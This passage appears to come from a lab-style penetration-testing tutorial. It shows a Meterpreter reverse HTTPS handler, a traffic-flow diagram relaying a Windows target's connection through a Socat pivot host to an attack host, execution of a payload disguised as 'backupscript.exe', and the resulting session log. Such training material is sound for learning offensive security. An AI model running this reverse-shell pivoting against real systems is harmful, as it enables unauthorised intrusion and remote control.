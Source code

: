 ```bash

# Expected Output:
[*] Started HTTPS reverse handler on https://0.0.0.0:80
```

**Handler Configuration:**
- **LHOST:** 0.0.0.0 (listen on all interfaces)
- **LPORT:** 80 (port that Socat forwards to)
- **Payload:** Matches the generated payload

---

## **3. Traffic Flow Analysis**

### **Connection Path**
```
[Windows Target] → [Socat Listener] → [Attack Host Handler]
172.16.5.19        172.16.5.129:8080   10.10.14.18:80
```

### **Step-by-Step Flow**
1. **Windows payload executes** and connects to 172.16.5.129:8080
2. **Socat receives connection** on port 8080
3. **Socat forwards traffic** to 10.10.14.18:80
4. **Attack host handler** receives forwarded connection
5. **Meterpreter session** established through relay

### **Network Perspective**
```bash
# From Windows target perspective:
Connection to: 172.16.5.129:8080

# From attack host perspective:
Connection from: 10.129.202.64 (pivot host IP)

# Socat acts as transparent proxy
```

---

## **4. Establishing the Meterpreter Session**

### **Execution and Connection**

```bash
# Execute payload on Windows target
C:\> backupscript.exe

# Handler receives connection through Socat
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:80 handling request from 10.129.202.64; (UUID: 8hwcvdrp) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.18:80 -> 127.0.0.1) at 2022-03-07 11:08:10 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```
